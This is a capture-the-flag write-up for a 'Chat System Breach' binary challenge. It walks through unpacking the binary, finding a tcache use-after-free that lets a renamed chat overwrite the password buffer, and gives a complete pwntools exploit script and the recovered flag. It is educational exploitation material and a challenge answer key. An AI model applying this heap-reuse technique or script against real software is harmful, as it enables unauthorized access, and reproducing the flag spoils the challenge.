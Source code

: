 # Chat System Breach - Writeup

---

## Exploit Demo

This demo illustrates the step-by-step exploit process:

![Alt text](gif/ChatSystemBreach.gif)

---

## Binary Inspection

We begin by analyzing the binary for further reversing and exploitation.

### Step 1: Checking binary format

```bash
$ file main
```

The binary is a 64-bit statically linked PIE executable.

![Alt text](img/1.png)

---

### Step 2: Checking binary security

```bash
$ pwn checksec main
```

The binary appears to be Packed with UPX.

![Alt text](img/2.png)

---

### Step 3: Unpacking the binary

```bash
$ upx -d main
```

We unpack the binary with UPX tool to make it analyzable .

![Alt text](img/3.png)

---

### Step 4: Checking binary format again

```bash
$ file main
```

Post-unpacking, the binary is 64-bit stripped of symbol information.

![Alt text](img/4.png)

---

### Step 5: Rechecking security after unpacking

```bash
$ pwn checksec main
```

The `checksec` output for `main` shows: 64-bit AMD architecture, Partial RELRO, no stack canary, NX enabled, and PIE enabled.

![Alt text](img/5.png)

---

## Static Analysis (IDA Pro)

The first thing that stood out was that both the chat name and password buffers are allocated with the same size (`0x40`). This immediately suggested a potential tcache reuse: if we free the chat name and then allocate a password, the new `s1` pointer will point to the same memory previously used by the chat name, enabling a use-after-free exploit.

New Chat malloc :
![Alt text](img/8.png)
Password malloc :
![Alt text](img/9.png)

## How to solve

This binary implements a chat system vulnerable to a classic **tcache-based use-after-free (UAF)**. Exploiting this UAF allows us to write arbitrary data into the "password" buffer (`s1` chunk), which is critical for bypassing a password check in `verify_password()`. Successfully passing the check triggers a call to `system("./log")` revealing the flag.

---

## Vulnerability Summary

- A 0x40-byte chunk is allocated for the chat name.
- During chat deletion, this chunk is freed and placed into the tcache freelist.
- The deletion can be canceled, leaving the chat struct valid but the name chunk freed.
- The password buffer (`s1`) is later allocated using `malloc(0x40)` — it reuses the freed chunk.
- Renaming the chat writes into the `s1` buffer.
- Writing the correct secret string (`"53cr37_c0d3"`) triggers `system("./log")`.

---

## Exploit Strategy

1. **Create a chat**  
   Allocates:

   - 0x208-byte struct chunk
   - 0x40-byte chunk for the name (stored at `struct->[1]`)

2. **Free the name chunk but cancel deletion**

   - `delete_chat()` frees the name chunk
   - Choose **N** to cancel → struct remains alive
   - Chunk is now in tcache

3. **Allocate the password buffer (`s1`)**

   - `s1 = malloc(0x40)` → reuses the tcache chunk

4. **Rename chat**

   - `rename_chat()` writes into `struct->[1]` → now also `s1`

5. **Write the secret and verify**

   - Input: `"53cr37_c0d3"`
   - Check: `strncmp(s1, "53cr37_c0d3", 11)`
   - Success: `system("./log")`

---

## Exploit script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      No RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Packer:     Packed with UPX

io = start()

def new_chat(idx, name, msg):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'Index (0-9): ', str(idx).encode())
    io.sendafter(b'Name of the chat: ', name.ljust(0x40, b'\x00'))
    io.sendafter(b'reply ASAP :', msg)

def delete_chat(idx, confirm):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'Index (0-9): ', str(idx).encode())
    io.sendafter(b'(Y/N):', confirm)

def rename_chat(idx, new_name):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'Index (0-9): ', str(idx).encode())
    io.sendafter(b'Name of the chat: ', new_name.ljust(0x40, b'\x00'))

def verify_password():
    io.sendlineafter(b'> ', b'7')

new_chat(0, b'dexter', b'dexter')

delete_chat(0, b'N')

io.sendlineafter(b'> ', b'5')

rename_chat(0, b'53cr37_c0d3')

verify_password()

io.interactive()

```

---

## Result

After successful password verification, the binary executes:

```c
system("./log");
```

This outputs the contents of the `./log` file — presumably the **flag**.

## ![Alt text](img/7.png)

## FLAG

After verification, we retrieve the flag from the program’s output.

```
RedPointer{9#zF@4T$3n!VmC82&xLpQ1r*X6~dEj}
```
